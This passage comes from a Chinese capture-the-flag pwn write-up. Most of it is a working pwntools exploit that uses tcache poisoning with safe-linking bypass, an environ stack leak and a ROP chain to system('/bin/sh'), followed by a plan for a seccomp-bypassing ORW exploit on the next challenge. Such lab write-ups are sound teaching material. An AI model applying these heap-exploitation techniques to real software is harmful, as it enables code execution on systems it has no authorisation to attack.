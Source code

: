 ```python
success("system_addr==>"+hex(system_addr))
success("environ_addr==>"+hex(environ_addr))
success("bin_sh_addr==>"+hex(sh_addr))
success("pop_rdi_ret==>"+hex(pop_rdi_ret))

#获取tcache基地址
show(0)
p.recvuntil(b"\x0a")
tcache_base = u64(p.recv(5).ljust(8,b"\x00"))
success("tcache_base==>"+hex(tcache_base))

#申请environ堆,泄漏其中的栈地址
fake_addr = environ_addr
payload6 = fd_glibc32(tcache_base,fake_addr)
edit(6,payload6)

#泄漏其中的栈地址
add()   #9
add()   #10
show(10)
p.recv()
stack_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
success("stack_addr==>"+hex(stack_addr))

#任意分配栈上的chunk
bp_addr = stack_addr-0x168      #不能直接到rbp的位置,要往前送0x10个字节
success("bp_addr==>"+hex(bp_addr))
free(9)
fake_addr = bp_addr
payload9 = fd_glibc32(tcache_base,fake_addr)
edit(9,payload9)

#申请到栈上的chunk,构造ROP链,并修改返回值
add()   #11
add()   #12
payload12 = b"a"*8*3 + p64(pop_rdi_ret) + p64(sh_addr) + p64(system_addr)
edit(12,payload12)
p.sendline(b"cat flag")
p.interactive()
```

 ![image-20240715190832783](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407151948450.png)

# 5. [CISCN 2022 华东北 ] bigduck

题目地址：[[CISCN 2022 华东北\]bigduck | NSSCTF](https://www.nssctf.cn/problem/2389)

### 思路：

1. 基本思路和上体一样，只不过这题开了sanbox，拿flag时需要绕过：****
2. 泄漏**堆的key**和**libc基地址** ==> 泄漏environ中的**栈地址** ==> 往栈上写ORW
